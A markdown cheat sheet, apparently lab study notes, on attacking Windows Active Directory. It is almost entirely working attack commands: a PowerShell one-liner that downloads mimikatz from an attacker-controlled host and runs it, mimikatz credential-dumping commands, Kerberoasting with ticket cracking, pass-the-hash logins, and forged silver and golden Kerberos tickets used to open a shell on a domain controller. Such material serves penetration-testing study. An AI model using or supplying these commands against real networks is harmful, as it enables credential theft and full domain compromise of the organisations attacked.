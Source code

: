 # Attacking Active Directory
## Lab Environment
|Server|IP Address|OS|Function|
|---|---|---|---|
|dc.lab.vx|192.168.17.141|Windows Server 2016|Domain Controller|
|svr.lab.vx|192.168.17.151|Windows Server 2016|Domain Member Server, SQL Server|
|client.lab.vx|192.168.17.161|Windows 10 1607|Domain Member Workstation, SQL Server Management Studio|

# Cached Credential Storage and Retrieval
**On Kali**: Setup web server to host `mimikatz`
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```
**On Target**: Download and run `mimikatz`
- Download: `(New-Object System.Net.WebClient).DownloadFile()`
- Run: `Start-Process`
```console
powershell.exe -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/mimikatz.exe', $env:APPDATA + '\mimikatz.exe'); Start-Process $env:APPDATA\mimikatz.exe
```
**On Target**: mimikatz commands
- Ref: <https://tools.thehacker.recipes/mimikatz>

|Command|Function|
|---|---|
|`privilege::debug`|Requests the debug privilege `SeDebugPrivilege`; required to debug and adjust the memory of a process owned by another account|
|`token::elevate`|Impersonates a SYSTEM token (default) or domain admin token (using `/domainadmin`)|
|`lsadump::sam`|Dumps the local Security Account Manager (SAM) NT hashes; operate directly on the target system, or offline with registry hives backups (for SAM and SYSTEM)|
|`lsadump::lsa /patch`|Extracts hashes from memory by asking the LSA server; `/patch` or `/inject` takes place on the fly|
|`sekurlsa::logonpasswords`|Lists all available provider credentials; usually shows recently logged on user and computer credentials|

# Service Account Attack (Kerberoasting)
```console
kerberos::list /export
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

# Pass the Hash

## pth-winexe
```console
pth-winexe -U offsec%00000000000000000000000000000000:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
## mimikatz - sekurlsa::pth
```console
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d 87aa966c327 /run:PowerShell.exe
```

# Silver Ticket
```console
kerberos::purge
kerberos::list
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
kerberos::list
```

# Golden Ticket
```console
lsadump::lsa /patch
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
misc::cmd
psexec.exe \\dc01 cmd.exe
```
